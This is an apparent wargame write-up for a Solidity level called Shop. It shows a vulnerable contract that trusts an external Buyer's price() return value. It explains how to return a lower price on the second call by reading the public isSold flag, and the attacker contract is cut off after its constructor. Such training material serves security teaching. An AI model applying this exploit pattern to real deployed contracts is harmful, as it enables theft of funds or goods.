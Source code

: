 ```

Сan you get the item from the shop for less than the price asked?

Things that might help:
Shop expects to be used from a Buyer
Understanding how gas() options works
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price.gas(3300)() >= price && !isSold) {
      isSold = true;
      price = _buyer.price.gas(3300)();
    }
  }
}
```
Level author:
Ivan Zakharov
34x4p08@gmail.com
https://github.com/34x4p08


In this level, we need to exploit interface Buyer. Our function price has to return different values, in two different calls. The only problem is that we can't use storage since just modifying value costs 5000 gas and we have only 3000 available. Good thing is that isSold variable from Shop contract is public and we can access it with the gas we have.

```
pragma solidity ^0.6.0;

interface Shop {
    function buy() external;
}

contract Hacker {
    
    Shop public shop;
    
    constructor(address shopAddr) public {  //pass your shop instance address when deploying as a constructor param
        shop = Shop(shopAddr);
    }
    